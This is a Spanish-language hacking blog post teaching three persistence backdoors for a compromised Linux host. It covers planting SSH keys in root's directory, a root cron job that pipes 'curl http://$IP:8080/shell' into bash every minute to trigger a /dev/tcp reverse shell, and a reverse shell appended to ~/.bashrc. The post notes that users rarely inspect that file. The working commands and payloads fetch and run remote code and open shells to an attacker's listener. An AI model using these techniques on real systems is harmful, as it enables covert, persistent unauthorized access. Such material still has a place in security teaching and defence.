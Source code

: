 ```yaml
---
title: Accesos no autorizados en Linux - Info
published: true
---
```


# [](#header-1)Introducción
Este post está dedicado para aprender técnicas comunes para puertas traseras en linux. Basicamente un backdoor es algo que podemos hacer para garatizarnos de poder acceder al sistema de manera constante. Aunque la máquina se apague o se reinicie podremos seguir teniendo acceso.

Obviamente esto no es una vulnerabilidad, si no que son técnicas para mantenernos con acceso al objetivo.
## [](#header-2) Puertas traseras en SSH
Esta es nuestra primera técnica que veremos, ssh backdoors.
Principalmente, esto consiste en dejar nuestras llaves ssh en el directorio de inicio de un usuario. En la mayoría de casos, el directorio sería en el de root. ¿Por qué? Porque es el usuario con mayores privilegios. Para poder hacer eso, tenemos que crear un conjunto de llaves ssh con el comando `ssh-keygen`.

> ![image](https://github.com/cerodah/blog/assets/82907557/2dfda856-50c8-4627-a567-7928c02a7abe)

Ahora que tenemos la llave publica y la privada podemos dejarla en /root/.ssh. No olvides cambiar el nombre de la llave publica, normalmente tiene como extension `.pub`, a authorized_keys. Si el directorio no existe, simplemente crealo con `mkdir -p /root/.ssh`. El parametro `-p` asegurará que se cree el directorio ".ssh" en root y si existe, no generará ningún error por pantalla.

Lo más seguro es que tenga que otorgar los permisos necesarios a la llave privada para que la llave sea accesible solamente para el propietario y nadie más (además ssh se quejará si no lo hacemos...). Con el comando `chmod 600 id_rsa` se hace.
Hay que tener algo que en cuenta. Este "backdoor" no está oculto en absoluto, ya que cualquier usuario con permisos necesarios podrá eliminar tanto nuestra llave pública (authorized_keys) como nuestra llave privada!
## [](#header-2) Puertas traseras en Cronjobs
Ahora que hemos visto una técnica, ¿por qué no pasar a la otra?. Este método consiste en crear una tarea. 
En Linux las cronjobs (trabajos cron) son tareas programadas que se ejecutan automáticamente a intervalos especificados por el usuario. Como dato, este término se denomina así ya que viene de un servicio de planificación de tareas en sistemas de tipo Linux y Unix.
Esto es bastante útil ya que se puede aprovechar para hacer backups cada x tiempo, actualizaciones y ejecuciones de scripts. 

Ese archivo se encuentra en la ruta `/etc/crontab` y si miramos lo que hay, seguramente encuentre algo parecido a esto: 
> ![image](https://github.com/cerodah/blog/assets/82907557/23133ff3-c9c6-4e36-a98c-1a33759a9a4b)


Una vez que haya obtenido acceso a cualquier host podrá usted mismo agregar su propia tarea.
Si mira bien puede ver que está el simbolo (*) presente al lado del numero 17, esto significa que la tarea se ejecutará cada hora. Pues bien , para aprovecharnos podemos agregar esta linea a nuestro archivo cronjob
```bash
* *     * * *   root    curl http://$IP:8080/shell | bash
```
Si se fija he puesto varios "*". ¿Por qué? Así, le estamos diciendo que queremos que nuestra tarea se ejecute cada minuto. (cada minuto de cada hora, todos los días, todos los meses y todos los días de la semana). Despues indicamos al usuario en el que se ejecutará la tarea, en este caso, es root. Después con curl realiazamos una petición HTTP a la URL "http://$IP:1337/shell" y finalmente con la tubería (|) pasamos la salida de curl como entrada de bash. Dentro de el archivo shell esta este código.
```bash
#!/bin/bash
bash -i >& /dev/tcp/ip/puerto 0>&1
```
Para que esto funcione el archivo debe de ser cargado en algún sitio en este caso usaremos python.
```python
python3 -m http.server 8080
```
Tampoco olvides estar escuchando por el puerto 1337 con netcat.
> ![image](https://github.com/cerodah/blog/assets/82907557/3a314627-6f1e-4323-b000-98e5914e05af)

Como se puede observar en la terminal derecha, al estar esperando un minuto a llegado momento en el que el archivo crontab haga su trabajo y nos de una sesión como root! 

## [](#header-3) Puerta trasera en ".bashrc"
¿Cómo? Un backdoor en el archivo de configuración de bash. ¡Sí!
En la mayoría de sistemas Linux y Unix, por defecto la shell predeterminada es la de bash. En esta shell, encontramos su archivo de configuración (~/.bashrc) y es el que se ejecuta cada vez que se inicia una sesión interactiva.
Podemos ejecutar este comando el cual ejecutamos una instancia interactiva y posteriormente rediriccionamos la entrada y salida de bash hacia un socket de red
```bash
echo 'bash -i >& /dev/tcp/$IP/puerto 0>&1' >> ~/.bashrc
```
No olvide estar escuchando por netcat por el puerto correspondiente.
Esta es una técnica un tanto robusta, ya que el usuario no suele mirar este archivo a menos que vaya a configurar algo de la shell.

```
Happy Hacking ^^
```
